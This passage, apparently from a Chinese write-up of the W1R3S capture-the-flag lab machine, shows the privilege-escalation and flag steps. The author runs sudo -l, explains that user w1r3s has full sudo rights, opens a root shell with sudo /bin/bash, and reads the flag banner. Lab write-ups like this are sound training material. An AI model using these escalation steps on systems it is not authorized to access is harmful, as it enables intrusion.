


# 3.提权

## 3.1 信息收集：

```shell
whoami
uname -a 
sudo -l # 它用于列出当前用户可以使用 sudo 命令运行的命令列表
```






这是一个 `sudo` 命令的输出，它显示了用户 `w1r3s` 在主机 `W1R3S.localdomain` 上的特权运行权限。下面是对这个输出的解释：

第一行显示了 `sudo` 的默认配置，包括 `env_reset`、`mail_badpass` 和 `secure_path` 选项。其中，`env_reset` 选项表示在执行命令时需要重置环境变量，`mail_badpass` 选项表示如果用户输入了错误的密码，系统会向管理员发送一封邮件，`secure_path` 选项表示 `sudo` 命令使用的安全路径列表，以防止用户在特权模式下误操作或执行恶意命令。

第二行显示了用户 `w1r3s` 在主机 `W1R3S.localdomain` 上可以运行的命令列表，其中 `ALL : ALL` 表示对于所有的用户和主机都允许执行任何的命令。这意味着用户 `w1r3s` 拥有完全的特权运行权限，并可以在主机上执行任何命令。


运行bash

```
sudo /bin/bash
```




# 4. 获取flag

```shell
root@W1R3S:/root# ls
flag.txt
root@W1R3S:/root# cat flag.txt
-----------------------------------------------------------------------------------------
   ____ ___  _   _  ____ ____      _  _____ _   _ _        _  _____ ___ ___  _   _ ____
  / ___/ _ \| \ | |/ ___|  _ \    / \|_   _| | | | |      / \|_   _|_ _/ _ \| \ | / ___|
 | |  | | | |  \| | |  _| |_) |  / _ \ | | | | | | |     / _ \ | |  | | | | |  \| \___ \
 | |__| |_| | |\  | |_| |  _ <  / ___ \| | | |_| | |___ / ___ \| |  | | |_| | |\  |___) |
  \____\___/|_| \_|\____|_| \_\/_/   \_\_|  \___/|_____/_/   \_\_| |___\___/|_| \_|____/

-----------------------------------------------------------------------------------------

                          .-----------------TTTT_-----_______
                        /''''''''''(______O] ----------____  \______/]_
     __...---'"""\_ --''   Q                               ___________@
 |'''                   ._   _______________=---------"""""""
 |                ..--''|   l L |_l   |
 |          ..--''      .  /-___j '   '
 |    ..--''           /  ,       '   '
 |--''                /           `    \
                      L__'         \    -
                                    -    '-.
                                     '.    /
                                       '-./

----------------------------------------------------------------------------------------
  YOU HAVE COMPLETED THE
               __      __  ______________________   _________
              /  \    /  \/_   \______   \_____  \ /   _____/
              \   \/\/   / |   ||       _/ _(__  < \_____  \
               \        /  |   ||    |   \/       \/        \
                \__/\  /   |___||____|_  /______  /_______  /.INC
                     \/                \/       \/        \/        CHALLENGE, V 1.0
----------------------------------------------------------------------------------------

CREATED BY SpecterWires
```


